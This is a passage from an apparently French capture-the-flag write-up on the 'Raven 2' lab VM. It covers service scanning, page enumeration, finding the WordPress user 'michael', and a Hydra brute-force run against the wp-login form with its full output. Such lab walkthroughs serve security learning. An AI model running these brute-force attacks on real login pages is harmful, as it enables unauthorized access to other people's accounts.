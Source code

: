 ```console
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          36548/tcp  status
|_  100024  1          42843/udp  status
36548/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:27:30:11 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
--snip--
```

La page d'index est une présentation des activités de l'entreprise _Raven Security_ ; il n'y a toujours pas de fichier ```robots.txt```, mais une recherche manuelle permet de lister les pages suivantes : ```index.html```, ```about.html```, ```service.html```, ```contact.php``` et ```team.html```. Sur cette dernière page Web, on y retrouve l'identité de chaque membre du staff qui, contrairement à celui de _[Bulldog Industries](/CTF-VulnLabs/bulldog2)_, n'a pas été licencié après la compromission de leur serveur. L'onglet Blog redirige toujours vers un site WordPress, aussi vide de contenu que le premier.

![Affichage de l'image INDEX-Raven.png](images/INDEX-Raven.png)

Les outils [__DIRB__](https://tools.kali.org/web-applications/dirb), [__nikto__](https://cirt.net/nikto2-docs/) et [__WordPress Security Scanner__](https://github.com/wpscanteam/wpscan) ne révèlent toujours rien de spécial ; en revanche, une recherche manuelle a permis de trouver le nom d'un utilisateur, ```michael```, qui a rédigé le premier post du blog... comme pour la VM Raven: 1. Deux attaques avec l'outil [__Hydra__](https://sectools.org/tool/hydra/) sont alors lancées : l'une sur le service SSH à la recherche du mot de passe Unix du compte ```michael``` (s'il existe), l'autre sur l'interface d'administration du WordPress à la recherche du mot de passe du compte ```michael``` (qui, lui, existe bien).

```console
root@blinils:~# hydra -l michael -P 500-worst-passwords.txt 192.168.56.102 \
-V http-form-post '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

--snip--

[DATA] attacking http-post-form://192.168.56.102:80//wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "123456" - 1 of 500 [child 0] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "password" - 2 of 500 [child 1] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "12345678" - 3 of 500 [child 2] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "1234" - 4 of 500 [child 3] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "pussy" - 5 of 500 [child 4] (0/0)
--snip--
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "mistress" - 496 of 500 [child 3] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "phantom" - 497 of 500 [child 6] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "billy" - 498 of 500 [child 1] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "6666" - 499 of 500 [child 0] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "albert" - 500 of 500 [child 5] (0/0)
1 of 1 target completed, 0 valid passwords found
```
